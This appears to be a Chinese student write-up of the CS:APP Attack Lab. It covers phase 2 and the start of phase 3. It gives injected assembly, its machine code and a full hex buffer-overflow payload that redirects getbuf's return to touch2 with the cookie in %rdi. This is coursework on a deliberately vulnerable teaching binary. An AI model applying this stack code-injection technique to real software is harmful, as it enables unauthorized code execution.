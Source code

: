  ```c
 	exit(0);
 }
 ```
 所以这道题首先要注入汇编代码在汇编代码中更改`$rdi`的值然后，将`touch2`的地址压入栈。在覆盖`$rsp`的时候，要知道`$rsp`具体值为多少以跳转到注入代码处，所以设断点得到`getbuf`处的`$rsp`值。
 注入的汇编代码:
```Assembly
 	mov $0x59b997fa,%rdi
 	push $0x004017ec
 	ret
```
运用 `gcc -c test.s`，`objdump -d test.o`将其转化为机器码得到：
```Assembly
test.o：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          push   $0x4017ec
   c:   c3                      ret    

```
然后按照第一题的思路，填充，覆盖，跳转，压栈，更改返回地址。
```
	48 c7 c7 fa 97 b9 59
	68 ec 17 40 00
	c3
	00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
	78 dc 61 55 00 00 00 00 00 00
```
#### 注意点：
1. 调试带参数的程序时，进入gdb环境后，运用`set args -q
`进行调试。
2. objdump -d 后的程序时代码是小端法输出的，所以不用更改直接复制即可，地址是大端法输出，因为要符合人的观看习惯。
 #### phase3
 ```c
1 /* Compare string to hex represention of unsigned value */
2 int hexmatch(unsigned val, char *sval)
3 {
4 	char cbuf[110];
5 	/* Make position of check string unpredictable */
6 	char *s = cbuf + random() % 100;
7 	sprintf(s, "%.8x", val);
8 	return strncmp(sval, s, 9) == 0;
9 }

10
11 void touch3(char *sval)
12 {
13 	vlevel = 3; /* Part of validation protocol */
14 	if (hexmatch(cookie, sval)) {
15 		printf("Touch3!: You called touch3(\"%s\")\n", sval);
16 		validate(3);
17 	} else {
18 		printf("Misfire: You called touch3(\"%s\")\n", sval);
19 		fail(3);
20 }
21 	exit(0);
22 }
 ```